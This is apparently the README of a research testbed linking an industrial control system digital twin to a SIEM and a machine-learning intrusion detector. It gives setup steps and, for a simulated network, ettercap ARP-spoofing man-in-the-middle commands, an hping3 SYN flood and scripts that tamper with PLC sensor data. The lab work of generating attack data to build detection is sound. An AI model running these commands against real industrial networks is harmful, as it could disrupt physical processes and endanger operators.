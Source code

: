 # DigitalTwin-SIEM-integration

**Installation**

Installation steps for the whole implementation with Docker Compose is as follows: 
(Please refer https://github.com/FrauThes/DigitalTwin-SIEM-integration/blob/master/README.md for the implementation without the IDS docker container)

1. After installing Docker Compose, clone the repository.
2. Add root user to the local access control list of xhost on "Docker host", not inside container.
    ```
    sudo xhost +si:localuser:root  
    ```
4. Run the init script:
    ```bash
    cd /deployments/docker && sudo sh init.sh
    ```
3. Enter the IP address or Hostname of the server when requested. For example:
    ```
    Enter the Hostname or IP Address where your elasticsearch will be deployed:10.0.2.15
    ```
4. The script is trying to import the Dsiem dashboard to Kibana. This may take a few minutes. Until Kibana is up and running, error messages are shown. This is normal. Example error message:
    ```
    curl: (22) The requested URL returned error: 503 Service Unavailable
    cannot connect to localhost:5601, will retry in 5 sec ..
    ```
5.  Once the project is ready, access kibana and ids in browser.
    Kibana port 5601 , ids (url comes on console) port 8888
    
The Project is up and running. If you want to start it a second time you simply have to navigate to deployments/docker and run `docker-compose up`.

**Data collection**

Once the docker compose is up, 8 xterm consoles will pop up on the terminal (2 for s1, 2 for plc1, 1 for plc2, 1 for plc3, 1 for hmi and 1 for attacker node)
To trigger data collection, run the following command on hmi terminal
```
python trigger.py <x>
```
Here x corresponds to the minutes for which data (process measuremnets) needs to be collected. For examples, if data needs to be collected for 2 hours, enter x as 120.

Collected dataset is stored as 'data.csv' in logs folder.

Label the dataset using 'label.py' script.

**Executing attacks**

Note: Launch all attacks from attacker node terminal.

IP to nodes mapping: PLC1 <--> 10.0.0.1, PLC2 <--> 10.0.0.2, PLC3 <--> 10.0.0.3, HMI <--> 10.0.0.4, ATTACKER <--> 10.0.0.5

**Attack scenario 1** (False data injection): Run the following script to launch this attack for x minutes.

    python attack_fdi.py <x>

**Attack scenario 2, 3, 4** (MitM/DoS): Run the following commands for attacks 2, 3, 4 respectively.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.2//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.3//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// 

**Attack scenario 5** (TCP SYN flooding)

    hping3 -S -a 10.0.0.4 --flood -V -p 44818 10.0.0.1

**Note**: Attacks 6 till 23 are MitM attacks. Attacker node is placed b/w two nodes and ip forwarding enabled using the following commands.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// &
    echo 1 > /proc/sys/net/ipv4/ip_forward

**Attack scenario 6,7,8** (MitM/Data tampering): Run the following commands for attacks 6, 7, 8 respectively.

    python attack_sensor_constant.py PLC2
    python attack_sensor_constant.py PLC3
    python attack_sensor_constant.py BOTH

**Attack scenario 9,10,11 (MitM/Scaling positive) and Attack scenario 12,13,14 (MitM/Scaling negative)

    python attack_sensor_scaling.py PLC2 +
    python attack_sensor_scaling.py PLC3 +
    python attack_sensor_scaling.py BOTH +
    python attack_sensor_scaling.py PLC2 -
    python attack_sensor_scaling.py PLC3 -
    python attack_sensor_scaling.py BOTH -

**Attack scenario 15,16,17 (MitM/Data tampering)

    python attack_sensor_random_withinlimits.py PLC2
    python attack_sensor_random_withinlimits.py PLC3
    python attack_sensor_random_withinlimits.py BOTH

**Attack scenario 18,19,20 (MitM/Scaling positive) and Attack scenario 21,22,23 (MitM/Scaling negative)

    python attack_randomp.py PLC2
    python attack_randomp.py PLC3
    python attack_randomp.py BOTH
    python attack_randomn.py PLC2
    python attack_randomn.py PLC3
    python attack_randomn.py BOTH

**Running ML-based IDS**

## Reference
[ARES'20](https://doi.org/10.1145/3407023.3407039)
